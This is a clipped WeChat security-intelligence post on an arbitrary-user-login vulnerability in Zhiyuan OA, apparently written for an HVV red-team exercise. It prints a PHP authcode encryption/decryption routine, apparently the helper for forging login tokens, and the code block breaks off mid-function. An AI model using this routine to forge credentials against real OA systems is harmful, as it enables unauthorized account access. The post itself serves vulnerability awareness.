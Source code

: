 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/FtERms6byTewuiI2st3EZw)

愿 HVV 开始之前的
-----------

### 0x01 志远 OA 任意用户登录

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhyDHticBAbNMfhOsxMtGhribATL4r7mRNJMZ27pvNZBF8vgqINETjEu1Mj396Ir2rWkSOQyqwHltQKg/640)

4 月 8 号安全情报
-----------

```
<?php 
function authcode_config($string,$key, $operation = 'DECODE', $expiry = 0)
{
$ckey_length = 4;
$key = md5($key);
$keya = md5(substr($key, 0, 16));
$keyb = md5(substr($key, 16, 16));
$keyc = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';

$cryptkey = $keya.md5($keya.$keyc);
$key_length = strlen($cryptkey);

$string = $operation == 'DECODE' ? base64_decode(substr($string, $ckey_length)) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
$string_length = strlen($string);

$result = '';
$box = range(0, 255);

$rndkey = array();
for($i = 0; $i <= 255; $i++) {
$rndkey[$i] = ord($cryptkey[$i % $key_length]);
}

for($j = $i = 0; $i < 256; $i++) {
$j = ($j + $box[$i] + $rndkey[$i]) % 256;
$tmp = $box[$i];
$box[$i] = $box[$j];
$box[$j] = $tmp;
}

for($a = $j = $i = 0; $i < $string_length; $i++) {
$a = ($a + 1) % 256;
$j = ($j + $box[$a]) % 256;
$tmp = $box[$a];
$box[$a] = $box[$j];
$box[$j] = $tmp;
$result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
}

if($operation == 'DECODE') {
if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
return substr($result, 26);
} else {
return '';
}
} else {
return $keyc.str_replace('=', '', base64_encode($result));
```